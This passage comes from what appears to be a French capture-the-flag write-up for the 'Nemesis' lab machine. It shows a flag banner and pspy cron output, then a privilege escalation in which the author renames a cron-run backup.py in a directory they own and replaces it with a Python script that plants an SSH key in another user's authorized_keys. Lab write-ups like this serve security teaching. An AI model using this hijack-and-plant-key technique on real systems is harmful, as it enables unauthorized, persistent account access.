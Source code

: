 ```console
                  _.-'        |
               .-'____________|______
               |                     |
               | Congratulations for |
               |  pwning user Thanos |
               |                     |
               |      _______        |
               |     |.-----.|       |
               |     ||x . x||       |
               |     ||_.-._||       |
               |     `--)-(--`       |
               |    __[=== o]___     |
               |   |:::::::::::|\    |
               |   `-=========-`()   |
               |                     |
               |  Flag{LF1_is_R34L}  |
               |                     |
               |    -= Nemesis =-    |
```

L'utilisateur a l'UID 100 :

```
carlos:x:1000:1000:Carlos,,,:/home/carlos:/bin/bash
```

Et via `pspy` je remarque que toutes les minutes il exécute ce script :

```
2023/04/12 20:58:01 CMD: UID=0    PID=942    | /usr/sbin/CRON -f 
2023/04/12 20:58:01 CMD: UID=1000 PID=943    | /bin/sh -c /usr/bin/python /home/thanos/backup.py
```

Je n'ai pas les droits sur les fichiers mais, étant propriétaire du dossier parent, je peux le déplacer / renommer :

```console
thanos@nemesis:~$ ls -al backup.py 
-rw-r--r-- 1 carlos carlos 345 Oct  3  2020 backup.py
thanos@nemesis:~$ ls -ald .
drwxr-xr-x 4 thanos thanos 4.0K Apr 12 21:04 .
thanos@nemesis:~$ mv backup.py backup_de_backup.py
```

Je crée alors un autre script à la place :

```python
import os
os.system("mkdir -p /home/carlos/.ssh")
os.system("echo ssh-rsa AAAAB--- snip ---qPflmWnV7Ez8/h > /home/carlos/.ssh/authorized_keys")
```

## Brute vs Python

Une fois connecté en tant que `carlos` il est vite question d'un script Python de chiffrement :
